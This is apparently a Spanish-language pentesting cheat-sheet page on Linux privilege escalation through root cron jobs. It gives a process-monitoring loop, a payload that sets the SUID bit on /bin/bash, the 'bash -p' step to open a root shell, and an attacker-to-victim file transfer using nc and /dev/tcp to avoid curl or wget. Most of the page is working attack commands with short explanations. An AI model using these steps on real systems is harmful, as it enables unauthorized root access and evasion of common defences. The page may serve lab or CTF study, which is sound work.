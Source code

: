 - -- 
Script en bash para detectar que usuarios estan ejecutando comandos o que tareas cron estan ejecutandose en el sistema:
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

Si luego de ejecutar el anterior script descubrimos que el usuario root esta ejecutando un script mediante una tarea cron, podemos modificar el script y poner esto para escalar privilegios
```bash
#!/bin/bash 

sleep 2 
chmod u+s /bin/bash
```

Una vez hayamos modificado el script y se aplique el privilegio SUID, tenemos que abrir una bash "privilegiada"
```bash 
bash -p 
```

Tambien podriamos usar el script *pspy* para descubrir esto mismo. ---> https://github.com/DominicBreuker/pspy
Luego, para "adentrarlo" en la maquina victima lo podemos hacer de la siguiente manera (sin uso de curl, wget, etc)
```bash
# Atacante:
nc -nlvp 443 < pspy
md5sum pspy
# Victima 
cat < /dev/tcp/192.168.64.128/443 > pspy
md5sum pspy
# Si los 2 hashes son iguales es que el script fue transferido de forma exitosa.
```
-- - 
